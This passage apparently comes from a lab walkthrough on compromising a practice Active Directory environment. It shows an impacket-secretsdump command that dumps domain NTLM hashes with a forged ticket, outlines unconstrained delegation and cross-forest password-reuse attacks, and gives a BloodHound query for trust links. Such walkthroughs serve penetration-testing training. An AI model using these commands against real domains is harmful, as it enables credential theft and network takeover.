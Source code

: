 
- or even dump secrets
```
impacket-secretsdump -k -no-pass -just-dc-ntlm trustfakeuser@kingslanding.sevenkingdoms.local
```
![screenshot](pics/golden_ticket_secretdump.png)

> This technique is even working if krbtgt password as been changed 2 times !

## Unconstrained delegation

- As winterfell is a domain controler, by default it is configured with unconstrained delegation.
- This attack from child to parent domain with Unconstrained delegation has been done in part 10 ([delegations](https://mayfly277.github.io/posts/GOADv2-pwning-part10/)).
- The principe is simple, coerce the parent dc to an unconstrained delegation server and extract the tgt.

# Forest Trust (sevenkingdoms.local -> essos.local)

- We have done Child to parent domain, in the next part we will try to exploit forest to forest.

## Password reuse

- On a real environment this is really accurate. Dump the ntds of the domain you own and try to find the same users on the external forest domains.
- The lab didn’t have this behavior but it is really simple to exploit.

## Foreign group and users

- On bloodhound we can see very easily that there is link between the domains with the following query _(Careful this query is fine in a lab but this will certainly be a little too heavy in a real world AD)_
```
MATCH p = (a:Domain)-[:Contains*1..]->(x)-->(w)-->(z)<--(y)<-[:Contains*1..]-(b:Domain) where (x:Container or x:OU) and (y:Container or y:OU) and (a.name <>b.name) and (tolower(w.samaccountname) <> "enterprise admins" and tolower(w.samaccountname) <> "enterprise key admins" and tolower(z.samaccountname) <> "enterprise admins" and tolower(z.samaccountname) <> "enterprise key admins")  RETURN p
```